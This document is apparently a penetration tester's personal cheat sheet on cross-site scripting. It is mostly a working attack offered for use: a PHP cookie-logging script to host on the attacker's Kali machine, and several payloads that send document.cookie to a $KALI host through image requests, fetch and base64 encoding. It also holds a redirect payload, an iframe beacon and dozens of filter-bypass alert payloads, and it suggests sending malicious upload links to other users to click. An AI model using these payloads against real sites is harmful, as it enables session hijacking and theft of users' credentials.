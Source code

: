 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Payload all the things resource:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
```

#### Test for XSS

Check if HttpOnly is disabled.

[[rlwrap]]

![[Pasted image 20220926131911.png]]

```
<img+src%3dhttp%3a//$KALI/x+/>>
```

![[Pasted image 20220926131833.png]]

#### steal.php

Save on to kali as `/var/www/html/steal.php`
```php - kali
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh, $ip.' '.$browser. ' '.$cookie. " \n");
fclose($fh);
echo "Thanks for your info" . $_POST['name'] . "!!!";
?>
```

```bash - kali
sudo chmod 777 /var/www/html/steal.php
```

```bash - kali
service apache2 start
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```html - target
<script>var i=new Image();i.src="http://$KALI/steal.php?q="+document.cookie;</script>
```

now just view the log:
```firefox
127.0.0.1/log.txt
```

Can also be used in file uploads if it allows! Try finding uploaded URL and send that link out for others to click!

#### Base64 encode

The btoa() function is used to encode the cookies as base64 and then append it to the IP address. URL encode this payload and repeat the request.

[[rlwrap]]

```
<img src=x onerror=this.src='http://$KALI/?cookies='+btoa(document.cookie)
/>
```

Now decode the base64 value.  Remember `%3D` is `=`.

#### New Awesome payload
Replaces `<script>alert(1)</script>`

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

#### Basic payloads
```html
<script>alert('XSS')</script>
```

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

```html
"><script>alert('XSS')</script>
```

```html
"><script>alert(String.fromCharCode(88,83,83))</script>
```

```html
<script>\u0061lert('22')</script>
```

```html
<script>eval('\x61lert(\'33\')')</script>
```

```html
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
```

```html
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
```

#### Img payloads
```html
<img src=x onerror=alert('XSS');>
```

```html
<img src=x onerror=alert('XSS')//
```

```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```

```html
"><img src=x onerror=alert('XSS');>
```

```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

Svg payloads
```html
<svgonload=alert(1)>
```

```html
<svg/onload=alert('XSS')>
```

```html
<svg onload=alert(1)//
```

```html
<svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
<svg id=alert(1) onload=eval(id)>
```

```html
"><svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
"><svg/onload=alert(/XSS/)
```

```html
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
```

```html
<svg><script>alert('33')
```

```html
<svg><script>alert&lpar;'33'&rpar;
```

// Div payload
```html
<div onpointerover="alert(45)">MOVE HERE</div>
```

```html
<div onpointerdown="alert(45)">MOVE HERE</div>
```

```html
<div onpointerenter="alert(45)">MOVE HERE</div>
```

```html
<div onpointerleave="alert(45)">MOVE HERE</div>
```

```html
<div onpointermove="alert(45)">MOVE HERE</div>
```

```html
<div onpointerout="alert(45)">MOVE HERE</div>
```

```html
<div onpointerup="alert(45)">MOVE HERE</div>
```


#### Example 1
- Something reflected on page?
	- `?default=English` : XSS
	- Test by changing value : `?default=AAAAA`
	- Inspect page:
	![[Pasted image 20220902124919.png]]

From the image above, we see we need to close out the option value  (`'>`), the options tag (`</option>`), and the select tag (`</select>`).  Then, create a h1 tag to test reflection on page.  Should see big bold TEST on page.

?default=
```html
'></option></select><h1>TEST</h1>
```

Next, try introducing script tag:
```html
'></option></select><script>alert('XSS')</script>
```

Using this to redirect user to other website:
```html
'></option></select><script>document.location.href="http://$KALI"</script>
```

If script tag is being filtered:
```html
'></option></select><img src=x onerror="alert('XSS')"/>
```

If there is an input box that reflects to page:
`<h1>Test</h1>`
![[Pasted image 20220902130252.png]]
`<script>alert('XSS')</script>`
If does not work, try bypass methods (`<SCRIPT>`, or `<SCRSCRIPTIPT>`)

XSS Filter bypass URL Encoding:
The "/" character is being filtered below:
![[Pasted image 20220905132535.png]]

`encodeURIComponent("<h1>Test</h1>");`
![[Pasted image 20220905132518.png]]

Testing input boxes:
![[Pasted image 20220902130624.png]]
![[Pasted image 20220902130644.png]]

Once found, set up listener and input script tag to steal cookies:
[[rlwrap]]
```html
<script>fetch('http://$KALI:80/'+document.cookie); /script>
```

Just modify cookie value in browser for win.

#### iframe test

[[rlwrap]]

```html
<iframe src=http://$KALI/report height="0" width="0"></iframe>
```

When a user connects to the page, we will receive there browser details:

![[Pasted image 20220505155251.png]]

#### Stealing Cookies and Session Information
[[rlwrap]]

```html
<script>new Image().src="http://$KALI/cool.jpg?output="+document.cookie;</script>
```


